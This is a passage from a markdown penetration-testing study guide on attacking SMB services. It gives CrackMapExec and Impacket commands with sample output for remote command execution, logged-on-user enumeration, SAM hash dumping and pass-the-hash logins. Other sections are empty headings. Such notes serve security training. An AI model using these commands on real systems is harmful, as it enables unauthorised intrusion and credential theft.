> **Note:** By default `CrackMapExec` will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list. Additionally, if we are targetting a non-domain joined computer, we will need to use the option `--local-auth`.

</details>

<details>
<summary><h3>Remote Code Execution (RCE)</h3></summary>

To use impacket-psexec, we need to provide the domain/username, the password, and the IP address of our target machine.

**Option 1 > Connect to a remote machine using `impacket-psexec`**

```bash
impacket-psexec <USER>:'<PASSWORD>'@<TARGET_IP>
```

**Example Output:**

```bash
# Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

# [*] Requesting shares on <TARGET_IP>.....
# [*] Found writable share ADMIN$
# [*] Uploading file EHtJXgng.exe
# [*] Opening SVCManager on <TARGET_IP>.....
# [*] Creating service nbAc on <TARGET_IP>.....
# [*] Starting service nbAc.....
# [!] Press help for extra shell commands
# Microsoft Windows [Version 10.0.19041.1415]
# (c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>
```

> **NOTE:** The same options apply to `impacket-smbexec` and `impacket-atexec`.

---

**Option 2 > Run CMD or PowerShell commands using `crackmapexec`**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' -x 'whoami' --exec-method smbexec
```

**Example Output:**

```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] .\<USER>:<PASSWORD> (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Executed command via smbexec
# SMB         <TARGET_IP> 445    WIN7BOX  nt authority\system
```

> **Note:** If the `--exec-method` is not defined, CrackMapExec will try to execute the `atexec` method, if it fails you can try to specify the `--exec-method` smbexec.

</details>

<details>
<summary><h3>Enumerating Logged-on Users</h3></summary>

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use CrackMapExec to enumerate logged-on users on all machines within the same network 10.10.110.0/24, which speeds up our enumeration process.

**Example Command**

```bash
crackmapexec smb 10.10.110.0/24 -u <USER> -p '<PASSWORD>' --local-auth --logged-on-users
```

**Example Output:**

```bash
# SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
# SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
# SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
# SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```

</details>

<details>
<summary><h3>Extract Hashes from SAM Database</h3></summary>

The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. If we get administrative privileges on a machine, we can extract the SAM database hashes for different purposes:

* Authenticate as another user
* Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts
* Pass The Hash

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' --sam
```

**Example Output:**

```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Dumping SAM hashes
# SMB         <TARGET_IP> 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
# SMB         <TARGET_IP> 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
# SMB         <TARGET_IP> 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
# SMB         <TARGET_IP> 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

</details>

<details>
<summary><h3>Pass-the-Hash (PtH)</h3></summary>

If we manage to get an **NTLM hash** of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called **Pass-the-Hash (PtH)**. PtH allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password. We can use a PtH attack with any `Impacket tool`, `SMBMap`, `CrackMapExec`, among other tools.

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -H <NTLM_HASH>
```

**Example Output:**

```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\<USER>:<NTLM_HASH> (Pwn3d!)
```

</details>


</details>

</details>

---

<details>
<summary><h1>🛢️ SQL Databases</h1></summary>



</details>

---

<details>
<summary><h1>🖧 RDP</h1></summary>



</details>

---

<details>
<summary><h1>🌐 DNS</h1></summary>



</details>

---

<details>
<summary><h1>📨 SMTP</h1></summary>



</details>

---

<details>
<summary><h1>🛠️ Skills Assessment</h1></summary>

<details>
<summary><h2>Attacking Common Services (EASY)</h2></summary>

</details>

<details>
<summary><h2>Attacking Common Services (MEDIUM)</h2></summary>

</details>

<details>
<summary><h2>Attacking Common Services (HARD)</h2></summary>

</details>

</details>

---

📘 **Next step:** Continue with [PIVOTING-TUNNELING](./09-pivoting-tunneling.md)